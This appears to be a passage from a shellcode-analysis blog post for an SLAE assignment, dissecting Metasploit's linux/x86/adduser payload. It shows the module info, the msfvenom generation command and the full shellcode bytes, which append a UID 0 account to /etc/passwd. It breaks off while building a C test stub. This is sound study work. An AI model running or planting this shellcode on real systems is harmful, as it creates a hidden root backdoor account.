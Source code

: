 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">msf5 payload(linux/x86/exec) &gt; use payload/linux/x86/adduser
msf5 payload(linux/x86/adduser) &gt; info

Name: Linux Add User
Module: payload/linux/x86/adduser
Platform: Linux
Arch: x86
Needs Admin: Yes
Total size: 97
Rank: Normal

Provided by:
skape &lt;mmiller@hick.org&gt;
vlad902 &lt;vlad902@gmail.com&gt;
spoonm &lt;spoonm@no$email.com&gt;

Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
PASS metasploit yes The password for this user
SHELL /bin/sh no The shell for this user
USER metasploit yes The username to create

Description:
Create a new user with UID 0</pre>
<p style="text-align:justify;">As we see from the description above the <strong>adduser</strong> payload used to create a new user with UID 0. Also <strong>msfvenom</strong> gives us the option to provide our own password, shell and username. In case the default credentials and default shell are used then as seen above the username and password will be <strong>metasploit</strong> and the shell will be <strong>/bin/sh</strong>&nbsp;</p>
<p style="text-align:justify;">In order to proceed with the analysis we will first generate the payload as follows</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment5</b></span>#  msfvenom -p linux/x86/adduser -f c 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";</pre>
<p style="text-align:justify;">Also, before moving further to analyse the shellcode with <strong>ndisasm</strong> we will first deploy the shellcode inside a stub file in C&nbsp; in order to be able to run it with <strong>gdb</strong></p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment5</b></span># cat &lt;&lt; EOF &gt; shellcode.c
&gt; #include &lt;stdio.h&gt;